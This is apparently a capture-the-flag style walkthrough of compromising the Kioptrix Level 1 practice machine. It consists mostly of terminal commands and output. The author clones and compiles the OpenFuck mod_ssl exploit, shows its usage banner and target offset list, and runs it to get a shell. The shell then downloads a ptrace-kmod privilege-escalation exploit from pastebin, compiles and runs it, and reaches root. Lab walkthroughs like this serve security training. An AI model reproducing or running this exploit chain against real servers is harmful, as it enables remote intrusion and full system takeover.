

Found "https://www.exploit-db.com/exploits/764" while searching for "mod_ssl/2.8.4 exploit" on google.
Also found "https://github.com/heltonWernik/OpenLuck" an improved version of above exploit.


Process :
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/heltonWernik/OpenFuck.git
Cloning into 'OpenFuck'...
remote: Enumerating objects: 26, done.
remote: Total 26 (delta 0), reused 0 (delta 0), pack-reused 26
Receiving objects: 100% (26/26), 14.14 KiB | 629.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.
┌──(kali㉿kali)-[~]
└─$ apt-get install libssl-dev
E: Could not open lock file /var/lib/dpkg/lock-frontend - open (13: Permission denied)
E: Unable to acquire the dpkg frontend lock (/var/lib/dpkg/lock-frontend), are you root?
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install libssl-dev 100 ⨯
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following packages were automatically installed and are no longer required:
libdap27 libdapclient6v5 libdav1d4 libepsilon1 libgdal28 libgeos-3.9.1 libgupnp-1.2-0 libidn11 libnetcdf18 libntfs-3g883
libomp-11-dev libomp5-11 libproj19 liburcu6 liburing1 libx265-192 libyara4 python3-editor python3-exif
python3-ipython-genutils python3-pylnk python3-stem
Use 'sudo apt autoremove' to remove them.
Suggested packages:
libssl-doc
The following NEW packages will be installed:
libssl-dev
0 upgraded, 1 newly installed, 0 to remove and 0 not upgraded.
Need to get 1,809 kB of archives.
After this operation, 8,071 kB of additional disk space will be used.
Get:1 https://mirror.anigil.com/kali kali-rolling/main amd64 libssl-dev amd64 1.1.1l-1 [1,809 kB]
Fetched 1,809 kB in 4s (465 kB/s)
Selecting previously unselected package libssl-dev:amd64.
(Reading database ... 341189 files and directories currently installed.)
Preparing to unpack .../libssl-dev_1.1.1l-1_amd64.deb ...
Unpacking libssl-dev:amd64 (1.1.1l-1) ...
Setting up libssl-dev:amd64 (1.1.1l-1) ...
┌──(kali㉿kali)-[~]
└─$ cd OpenFuck
┌──(kali㉿kali)-[~/OpenFuck]
└─$ gcc -o OpenFuck OpenFuck.c -lcrypto
┌──(kali㉿kali)-[~/OpenFuck]
└─$ ls
OpenFuck OpenFuck.c README.md
┌──(kali㉿kali)-[~/OpenFuck]
└─$ ./OpenFuck
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena irc.brasnet.org *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************
: Usage: ./OpenFuck target box [port] [-c N]
target - supported box eg: 0x00
box - hostname or IP address
port - port for ssl connection
-c open N connections. (use range 40-50 if u dont know)
Supported OffSet:
0x00 - Caldera OpenLinux (apache-1.3.26)
0x01 - Cobalt Sun 6.0 (apache-1.3.12)
0x02 - Cobalt Sun 6.0 (apache-1.3.20)
0x03 - Cobalt Sun x (apache-1.3.26)
0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)
0x05 - Conectiva 4 (apache-1.3.6)
0x06 - Conectiva 4.1 (apache-1.3.9)
0x07 - Conectiva 6 (apache-1.3.14)
0x08 - Conectiva 7 (apache-1.3.12)
0x09 - Conectiva 7 (apache-1.3.19)
0x0a - Conectiva 7/8 (apache-1.3.26)
0x0b - Conectiva 8 (apache-1.3.22)
0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)
0x0d - Debian GNU Linux (apache_1.3.19-1)
0x0e - Debian GNU Linux (apache_1.3.22-2)
0x0f - Debian GNU Linux (apache-1.3.22-2.1)
0x10 - Debian GNU Linux (apache-1.3.22-5)
0x11 - Debian GNU Linux (apache_1.3.23-1)
0x12 - Debian GNU Linux (apache_1.3.24-2.1)
0x13 - Debian Linux GNU Linux 2 (apache_1.3.24-2.1)
0x14 - Debian GNU Linux (apache_1.3.24-3)
0x15 - Debian GNU Linux (apache-1.3.26-1)
0x16 - Debian GNU Linux 3.0 Woody (apache-1.3.26-1)
0x17 - Debian GNU Linux (apache-1.3.27)
0x18 - FreeBSD (apache-1.3.9)
0x19 - FreeBSD (apache-1.3.11)
0x1a - FreeBSD (apache-1.3.12.1.40)
0x1b - FreeBSD (apache-1.3.12.1.40)
0x1c - FreeBSD (apache-1.3.12.1.40)
0x1d - FreeBSD (apache-1.3.12.1.40_1)
0x1e - FreeBSD (apache-1.3.12)
0x1f - FreeBSD (apache-1.3.14)
0x20 - FreeBSD (apache-1.3.14)
0x21 - FreeBSD (apache-1.3.14)
0x22 - FreeBSD (apache-1.3.14)
0x23 - FreeBSD (apache-1.3.14)
0x24 - FreeBSD (apache-1.3.17_1)
0x25 - FreeBSD (apache-1.3.19)
0x26 - FreeBSD (apache-1.3.19_1)
0x27 - FreeBSD (apache-1.3.20)
0x28 - FreeBSD (apache-1.3.20)
0x29 - FreeBSD (apache-1.3.20+2.8.4)
0x2a - FreeBSD (apache-1.3.20_1)
0x2b - FreeBSD (apache-1.3.22)
0x2c - FreeBSD (apache-1.3.22_7)
0x2d - FreeBSD (apache_fp-1.3.23)
0x2e - FreeBSD (apache-1.3.24_7)
0x2f - FreeBSD (apache-1.3.24+2.8.8)
0x30 - FreeBSD 4.6.2-Release-p6 (apache-1.3.26)
0x31 - FreeBSD 4.6-Realease (apache-1.3.26)
0x32 - FreeBSD (apache-1.3.27)
0x33 - Gentoo Linux (apache-1.3.24-r2)
0x34 - Linux Generic (apache-1.3.14)
0x35 - Mandrake Linux X.x (apache-1.3.22-10.1mdk)
0x36 - Mandrake Linux 7.1 (apache-1.3.14-2)
0x37 - Mandrake Linux 7.1 (apache-1.3.22-1.4mdk)
0x38 - Mandrake Linux 7.2 (apache-1.3.14-2mdk)
0x39 - Mandrake Linux 7.2 (apache-1.3.14) 2
0x3a - Mandrake Linux 7.2 (apache-1.3.20-5.1mdk)
0x3b - Mandrake Linux 7.2 (apache-1.3.20-5.2mdk)
0x3c - Mandrake Linux 7.2 (apache-1.3.22-1.3mdk)
0x3d - Mandrake Linux 7.2 (apache-1.3.22-10.2mdk)
0x3e - Mandrake Linux 8.0 (apache-1.3.19-3)
0x3f - Mandrake Linux 8.1 (apache-1.3.20-3)
0x40 - Mandrake Linux 8.2 (apache-1.3.23-4)
0x41 - Mandrake Linux 8.2 #2 (apache-1.3.23-4)
0x42 - Mandrake Linux 8.2 (apache-1.3.24)
0x43 - Mandrake Linux 9 (apache-1.3.26)
0x44 - RedHat Linux ?.? GENERIC (apache-1.3.12-1)
0x45 - RedHat Linux TEST1 (apache-1.3.12-1)
0x46 - RedHat Linux TEST2 (apache-1.3.12-1)
0x47 - RedHat Linux GENERIC (marumbi) (apache-1.2.6-5)
0x48 - RedHat Linux 4.2 (apache-1.1.3-3)
0x49 - RedHat Linux 5.0 (apache-1.2.4-4)
0x4a - RedHat Linux 5.1-Update (apache-1.2.6)
0x4b - RedHat Linux 5.1 (apache-1.2.6-4)
0x4c - RedHat Linux 5.2 (apache-1.3.3-1)
0x4d - RedHat Linux 5.2-Update (apache-1.3.14-2.5.x)
0x4e - RedHat Linux 6.0 (apache-1.3.6-7)
0x4f - RedHat Linux 6.0 (apache-1.3.6-7)
0x50 - RedHat Linux 6.0-Update (apache-1.3.14-2.6.2)
0x51 - RedHat Linux 6.0 Update (apache-1.3.24)
0x52 - RedHat Linux 6.1 (apache-1.3.9-4)1
0x53 - RedHat Linux 6.1 (apache-1.3.9-4)2
0x54 - RedHat Linux 6.1-Update (apache-1.3.14-2.6.2)
0x55 - RedHat Linux 6.1-fp2000 (apache-1.3.26)
0x56 - RedHat Linux 6.2 (apache-1.3.12-2)1
0x57 - RedHat Linux 6.2 (apache-1.3.12-2)2
0x58 - RedHat Linux 6.2 mod(apache-1.3.12-2)3
0x59 - RedHat Linux 6.2 update (apache-1.3.22-5.6)1
0x5a - RedHat Linux 6.2-Update (apache-1.3.22-5.6)2
0x5b - Redhat Linux 7.x (apache-1.3.22)
0x5c - RedHat Linux 7.x (apache-1.3.26-1)
0x5d - RedHat Linux 7.x (apache-1.3.27)
0x5e - RedHat Linux 7.0 (apache-1.3.12-25)1
0x5f - RedHat Linux 7.0 (apache-1.3.12-25)2
0x60 - RedHat Linux 7.0 (apache-1.3.14-2)
0x61 - RedHat Linux 7.0-Update (apache-1.3.22-5.7.1)
0x62 - RedHat Linux 7.0-7.1 update (apache-1.3.22-5.7.1)
0x63 - RedHat Linux 7.0-Update (apache-1.3.27-1.7.1)
0x64 - RedHat Linux 7.1 (apache-1.3.19-5)1
0x65 - RedHat Linux 7.1 (apache-1.3.19-5)2
0x66 - RedHat Linux 7.1-7.0 update (apache-1.3.22-5.7.1)
0x67 - RedHat Linux 7.1-Update (1.3.22-5.7.1)
0x68 - RedHat Linux 7.1 (apache-1.3.22-src)
0x69 - RedHat Linux 7.1-Update (1.3.27-1.7.1)
0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
0x6c - RedHat Linux 7.2-Update (apache-1.3.22-6)
0x6d - RedHat Linux 7.2 (apache-1.3.24)
0x6e - RedHat Linux 7.2 (apache-1.3.26)
0x6f - RedHat Linux 7.2 (apache-1.3.26-snc)
0x70 - Redhat Linux 7.2 (apache-1.3.26 w/PHP)1
0x71 - Redhat Linux 7.2 (apache-1.3.26 w/PHP)2
0x72 - RedHat Linux 7.2-Update (apache-1.3.27-1.7.2)
0x73 - RedHat Linux 7.3 (apache-1.3.23-11)1
0x74 - RedHat Linux 7.3 (apache-1.3.23-11)2
0x75 - RedHat Linux 7.3 (apache-1.3.27)
0x76 - RedHat Linux 8.0 (apache-1.3.27)
0x77 - RedHat Linux 8.0-second (apache-1.3.27)
0x78 - RedHat Linux 8.0 (apache-2.0.40)
0x79 - Slackware Linux 4.0 (apache-1.3.6)
0x7a - Slackware Linux 7.0 (apache-1.3.9)
0x7b - Slackware Linux 7.0 (apache-1.3.26)
0x7c - Slackware 7.0 (apache-1.3.26)2
0x7d - Slackware Linux 7.1 (apache-1.3.12)
0x7e - Slackware Linux 8.0 (apache-1.3.20)
0x7f - Slackware Linux 8.1 (apache-1.3.24)
0x80 - Slackware Linux 8.1 (apache-1.3.26)
0x81 - Slackware Linux 8.1-stable (apache-1.3.26)
0x82 - Slackware Linux (apache-1.3.27)
0x83 - SuSE Linux 7.0 (apache-1.3.12)
0x84 - SuSE Linux 7.1 (apache-1.3.17)
0x85 - SuSE Linux 7.2 (apache-1.3.19)
0x86 - SuSE Linux 7.3 (apache-1.3.20)
0x87 - SuSE Linux 8.0 (apache-1.3.23)
0x88 - SUSE Linux 8.0 (apache-1.3.23-120)
0x89 - SuSE Linux 8.0 (apache-1.3.23-137)
0x8a - Yellow Dog Linux/PPC 2.3 (apache-1.3.22-6.2.3a)
Fuck to all guys who like use lamah ddos. Read SRC to have no surprise
┌──(kali㉿kali)-[~/OpenFuck]
└─$ ./OpenFuck 0x6b 192.168.220.129 -c 40 1 ⨯
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena irc.brasnet.org *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************
Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c ciphers: 0x80f80e0
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt
--04:53:06-- https://pastebin.com/raw/C7v25Xr9
=> `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
0K ... @ 3.84 MB/s
04:53:07 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]
ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 1934
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
hostname
kioptrix.level1